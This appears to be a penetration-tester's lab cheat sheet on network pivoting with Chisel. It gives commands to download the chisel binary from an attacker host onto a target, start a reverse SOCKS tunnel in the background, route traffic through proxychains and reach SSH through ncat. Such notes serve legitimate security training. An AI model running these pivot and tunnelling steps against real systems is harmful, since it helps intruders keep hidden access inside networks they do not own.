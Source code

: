 ## Using Chisel
https://github.com/jpillora/chisel/releases/tag/v1.10.1
First, we need to get the chisel binary onto our target
```
wget $openvpnip/chisel -O /tmp/chisel && chmod +x /tmp/chisel


for editing purposes:
wget $openvpnip/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
Starting the Chisel server with reverse tunneling
```
chisel server --port 8080 --reverse
```
To connect to the chisel server on target:
```
/tmp/chisel client $openvpnip:8080 R:socks > /dev/null 2>&1 &

for editing purposes:
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```
Verify connection with either:
```
ss -ntplu

OR
sudo tcpdump -nvvvXi tun0 tcp port 8080 (do this before running the connection command)
```
Upon verifying:
```
edit /etc/proxychains4.conf

sock5 127.0.0.1 1080

run your commands through proxychain
```
Connecting to ssh through SOCKS proxy (ProxyCommand)
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:$ip %h %p' [user]@$targetip
```